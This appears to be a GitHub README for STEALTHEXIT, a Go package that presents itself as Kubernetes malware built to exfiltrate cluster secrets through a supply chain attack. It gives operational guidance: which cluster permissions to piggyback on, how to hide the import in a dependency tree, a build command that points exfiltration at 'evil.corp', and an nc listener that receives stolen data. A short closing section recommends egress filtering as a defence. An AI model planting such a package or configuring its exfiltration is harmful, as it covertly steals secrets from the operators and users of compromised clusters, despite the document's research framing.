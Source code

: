 # STEALTHEXIT

**Rule #1: don't be an idiot.**

This package is Kubernetes malware that exfiltrates sensitive data out of the cluster. This is purely for research and educational purposes. Don't be an idiot.
It is supposed to be delivered via supply chain attack. The prime target are OSS Projects that run inside Kubernetes. Basically everything you can find at [operatorhub.io](https://operatorhub.io/) is a prime target.

### Prerequisites

(1) Run an HTTP server that accepts incoming POST requests. See below on how to configure it.

(2) The victim needs elevated permissions, so we can piggyback on them to fetch and exfiltrate sensitive data. The following permissions can be used to escalate privileges even further:

* create `pod/exec`
* create `pod`, `deployment`, `statefulset`, `daemonset`
* create `secret`
* create `serviceaccount/token`
* create `(Cluster)Role`, `(Cluster)RoleBinding`

### Dropping the Malware

Find a way to import this package. You should hide it well in the dependency tree, so it's not obvious.

```go
package main

import (
    // this is everything
	_ "github.com/moolen/stealthexit"
)
```

Once built and ran the program will immediately push all information to `http://localhost:8087`. This is configurable by adding `ldflags` to the `go build` command when building the victim program, like so:

```sh
$ go build -ldflags "-X github.com/moolen/stealthexit.TargetEndpoint=http://evil.corp"
```

You could also modify it in code, but you shouldn't. Don't be an idiot.

#### Testing

```sh
# start local receiver
$ nc -l -p 8087 > payload

# run victim code
```

---

### Protecting yourself

The supply chain security mechanisms that are considered to be best practices today aren't going to protect you:
1. `SBOM` helps you to find out quicker that you're affected once it's a known malicious package
2. `Provenance` data proofs the origin of the software artefact. Because this package has been accepted upstream it will be legit
3. `vulnerability scan reports` can be attached to an artefact as well. Because it has been accepted upstream the scan reports no issues with this particular package

So what can you do? Egress filtering FTW.
